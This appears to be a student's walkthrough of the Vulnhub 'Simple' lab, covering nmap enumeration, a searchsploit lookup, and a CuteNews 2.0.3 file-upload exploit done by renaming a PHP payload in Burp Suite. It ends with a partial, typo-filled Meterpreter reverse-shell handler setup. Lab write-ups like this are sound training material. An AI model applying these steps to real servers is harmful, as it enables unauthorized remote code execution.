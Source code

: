 # Vulnhub Simple

## Enumeration
`nmap -sC -sV -Pn <ip>`

Sc : default scripts

sV : Default Versions

Pn : Skip Host discovery

```
80/tcp open  http    syn-ack Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 759585A56089DB516D1FBBBE5A8EEA57
|_http-title: Please Login / CuteNews
```

I opened the browser and went to the <ip>.
  
There was a login form and it was running on Cutenews 2.0.3
  
I ran dirb just in case, but nothing special was found. 
  
So, I searched for know vulnerabilities with cutenews.
  
`searchsploit cutenews`
  
Results:
  
`CuteNews 2.0.3 - Arbitrary File Upload                            | php/webapps/37474.txt`

  
I found out cutenews 2.0.3 has a file upload vulnerability that can lead to reverse shell.
  
This known exploit was pretty old, and "tamper data" add on from firefox was not working well for me. 
  
I decided to work with Burpsuite instead.
  
## Creating PHP backdoor
  
I got help from [hackingarticles](https://www.hackingarticles.in/web-penetration-testing-tamper-data-firefox-add/) when writing the code. 

Basically, it is about creating php shell code using msfvenom and multi handler. I should study more about this area. 
  
After creating the file `payload.php.jpg` ,turn burpsuite on.
  
From the avatar change page, select the `payload.php.jpg` file and click submit button with the burp intercept on.
  
Burp will intercept and now change the `payload.php.jpg` into `payload.php`.
  

  
  ## sd
  Open the ph file from the <ip>uploads. 
  
  Have the msfconsole pre-ready for connection. 
  
  ``use ecploit/multi/handler
  set payload php/meterpreter/reverse_tcp
  set ...
  run
  ``
